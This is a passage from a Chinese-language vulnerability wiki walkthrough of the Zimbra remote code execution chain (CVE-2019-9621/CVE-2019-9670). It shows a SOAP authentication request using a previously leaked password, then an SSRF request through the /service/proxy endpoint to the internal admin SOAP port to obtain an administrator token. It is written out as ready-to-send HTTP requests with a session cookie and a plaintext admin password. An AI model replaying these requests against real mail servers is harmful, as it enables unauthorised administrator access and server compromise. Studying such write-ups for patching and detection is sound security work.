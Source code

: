     <soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope">  
       <soap:Header>  
           <context xmlns="urn:zimbra">  
               <userAgent name="ZimbraWebClient" version="5.0.15_GA_2851"/>  
           </context>  
       </soap:Header>  
       <soap:Body>  
         <AuthRequest xmlns="urn:zimbraAccount">  
            <account by="adminName">zimbra</account>  
            <password>上面得到的密码</password>  
         </AuthRequest>  
       </soap:Body>  
    </soap:Envelope>

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-9621)(CVE-2019-9670)Zimbra远程代码执行漏洞/media/rId29.png)

从上图可以看到已经获取到token，但该token不是管理员权限的token，暂时记下来以后要用。

### 第四步：利用SSRF漏洞通过proxy接口，访问admin的soap接口获取高权限Token

> POST请求包如下：

    POST /service/proxy?target=https://127.0.0.1:7071/service/admin/soap HTTP/1.1  
    Host: www.0-sec.org:7071  
    User-Agent: Mozilla/5.0 (Windows NT 10.0) Gecko/20100101 Firefox/66.0  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.2  
    Accept-Encoding: gzip, deflate  
    Referer: https://mail.****.com/zimbra/
    Content-Type: application/soap+xml  
    Content-Length: 465  
    Connection: close  
    Cookie: ZM_ADMIN_AUTH_TOKEN=0_5221766f264e4dcb78b4f67be5f839b1ed668da3_69643d33363a65306661666438392d313336302d313164392d383636312d3030306139356439386566323b6578703d31333a313535343733303133353638333b747970653d363a7a696d6272613b7469643d393a3735353034333637323b  
    Upgrade-Insecure-Requests: 1  

    <soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope">  
       <soap:Header>  
           <context xmlns="urn:zimbra">  
               <userAgent name="ZimbraWebClient - SAF3 (Win)" version="5.0.15_GA_2851"/>  
           </context>  
       </soap:Header>  
       <soap:Body>  
         <AuthRequest xmlns="urn:zimbraAdmin">  
            <account by="adminName">zimbra</account>  
            <password>GzXaU76_s5</password>  
         </AuthRequest>  
       </soap:Body>  
    </soap:Envelope>

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-9621)(CVE-2019-9670)Zimbra远程代码执行漏洞/media/rId31.png)
